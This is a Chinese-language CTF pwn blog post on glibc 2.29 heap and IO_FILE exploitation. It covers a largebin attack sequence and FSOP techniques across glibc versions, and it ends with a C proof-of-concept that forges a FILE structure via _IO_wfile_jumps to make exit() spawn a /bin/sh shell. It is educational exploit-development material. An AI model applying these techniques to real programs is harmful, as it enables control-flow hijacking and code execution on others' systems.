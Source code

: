 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      Glibc 2.29下的IO_FILE利用 		 # 标题 
subtitle:   Glibc2.29               # 副标题
date:       2020-08-17 				# 时间
author:     Mr.R 					# 作者
# header-img: img/post-bg-2015.jpg 	# 这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								# 标签
    - CTF
    - Pwn
---
```


## Largebin Attack

2.31中加入了限制，先将小的chunk放入large bin的方法不可行了

![image-20200817003828537](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght4lafd2aj31bc0p87af.jpg)

但是现在仍然可以使用这个方法

![image-20200817004014478](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght4n4l9suj316u0aaq50.jpg)



具体用法:

```
chunk0 = malloc(0x450)#0
malloc(0x10)#1
chunk1 = malloc(0x420)#2
malloc(0x10)#3
free(chunk0)
malloc(0x600)		//将chunk0放入large bin

free(chunk1)		//将chunk1放入unsorted bin
chunk0->bk_nextsize = target-0x20

malloc(0x420)  //触发large bin attack
```

## FSOP

### glibc2.23

glibc2.23中只需要伪造vtable的地址即可

### glibc2.24+

glibc2.24中加入了vtable_check，导致无法伪造vtable地址，但是可以使用其他的vtable，常用的是_IO_str_jumps,

利用其中的OVERFLOW和FINISH来进行函数调用

### glibc2.29

#### 1.复写vtable

glibc2.23中我们伪造vtable是因为其不可写，但是在glibc2.29中，vtable是可写的

![image-20200817005301996](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght50g287lj315m03a3zd.jpg)

![image-20200817005319342](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght50qfk4bj31mg03iq3i.jpg)

因此可以直接覆写_IO_file_jumps

#### 2.利用其他vtable

有时候我们并不能做到任意地址覆写，也就无法去覆盖_IO_file_jumps，这时仍需要利用类似2.24+的方法



但是glibc2.29中，_IO_str_jumps中的OVERFLOW和FINISH均不可使用了，我们对比一下

##### 2.27:

![image-20200817005708646](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght54p8t0uj31bu0fotb8.jpg)

![image-20200817005807286](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght55qm4idj31m60my42c.jpg)

##### 2.29:

![image-20200817005545322](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght53aeuxqj316o0fcmza.jpg)

![image-20200817005621297](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght53xrrzej316a0ikgoy.jpg)

可以看到2.27中，free和malloc的位置都是由fp内部的函数指针决定的，因此可以通过伪造fp结构体来做到任意函数执行

但是在2.29中，这两处都被改为了free和malloc，也就是不能够再进行利用了。



经过一段时间的查找后，我发现_IO_wfile_jumps中仍包含有大量的函数指针，其中\_IO_wfile_sync函数较好利用

![image-20200817010304968](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght5awr692j31fg0u0dln.jpg)

![image-20200817010337407](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght5bh1qppj31bu0u0ai2.jpg)

仅需满足以下条件即可:

```
1.fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base
2.fp->_wide_data->_IO_read_ptr - fp->_wide_data->_IO_read_end
3.*(fp->_codecvt+4)=func,参数就是fp->_codecvt
```

为了触发fsop，还需要满足fsop所要求的fp参数

demo:

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
#define _IO_list_all 0x7ffff7fbc660
#define _IO_wfile_jumps 0x7ffff7fbd020

int main(){
    struct _IO_FILE *fp1 = malloc(0x500);
    size_t *fp2 = malloc(0x500);
    unsigned long func[10];
    memcpy(func,"/bin/sh\x00",8);
    func[4]=system;
    size_t *ptr = _IO_list_all;
    *ptr = fp1;
    fp1->_mode=0;
    fp1->_IO_write_ptr = 1;
    fp1->_IO_write_base = 0;
    *(unsigned long *)((unsigned long)fp1+0xd8) = _IO_wfile_jumps+8*9;
    fp1->_wide_data = fp2;
    fp1->_codecvt=func;
    fp2[4] = 0;
    fp2[3] = 1;
    fp2[0] = 1;
    fp2[1] = 0;
    exit(0);
    return 0;
}
```

![image-20200817013459090](https://tva1.sinaimg.cn/large/007S8ZIlgy1ght6834pnvj30yg05a75c.jpg)